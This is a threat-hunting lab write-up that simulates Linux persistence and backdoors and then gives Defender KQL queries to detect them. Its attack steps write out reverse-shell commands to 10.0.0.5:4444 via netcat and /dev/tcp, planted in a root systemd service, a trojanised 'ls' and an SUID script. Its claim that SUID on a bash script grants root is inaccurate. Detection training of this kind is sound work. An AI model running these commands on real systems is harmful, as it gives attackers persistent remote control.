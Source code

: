 # Threat Event (Persistence & Backdoor Access)

**Unauthorized Persistence Mechanisms & Backdoor Creation**

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded and installed a **malicious systemd service** to ensure the backdoor would automatically start on system reboot.
- The service was configured to run a reverse shell or malicious command to maintain access after rebooting the system.

```# Create a malicious systemd service that will ensure persistence by executing a reverse shell
echo '[Unit]
Description=Malicious Service
After=network.target

[Service]
ExecStart=/bin/bash -c "nc -e /bin/bash 10.0.0.5 4444"
Restart=always
User=root

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/malicious.service

# Enable and start the malicious service
sudo systemctl enable malicious.service
sudo systemctl start malicious.service
```

2. Replaced the legitimate `ls` command with a Trojanized script located at `/home/baddog/.local/bin/ls`.
- This Trojanized script was designed to execute a reverse shell when invoked, providing continued access to the system without raising suspicion.

```
echo '#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1' > /home/baddog/.local/bin/ls
chmod +x /home/baddog/.local/bin/ls
```

3. **Created a backdoor shell at `/tmp/rootbash`, set the **SUID permission** on the shell (`chmod u+s /tmp/rootbash`), and made it executable by any user.
- This backdoor shell was designed to escalate privileges and grant root access, regardless of the user executing

```
echo '#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1' > /tmp/rootbash
chmod u+s /tmp/rootbash
chmod +x /tmp/rootbash
```

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect execution of Trojanized commands, privilege escalation attempts, and service creation. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceFileEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose** | Used to detect the creation and modification of system files, including systemd services and backdoor binaries. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceLogonEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose** | Used to detect unauthorized remote logins or unusual authentication patterns. |

---

## Related Queries:

```kql
// Detect execution of a Trojanized administrative command
DeviceProcessEvents
| where ProcessCommandLine contains "ls"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect execution of a SUID backdoor shell
DeviceProcessEvents
| where ProcessCommandLine contains "rootbash"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect potential unauthorized logins
DeviceLogonEvents
| where AccountName contains "root"
| where LogonType in ("RemoteInteractive", "Interactive")
| project Timestamp, DeviceName, AccountName, RemoteIP, LogonType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: January 30, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**
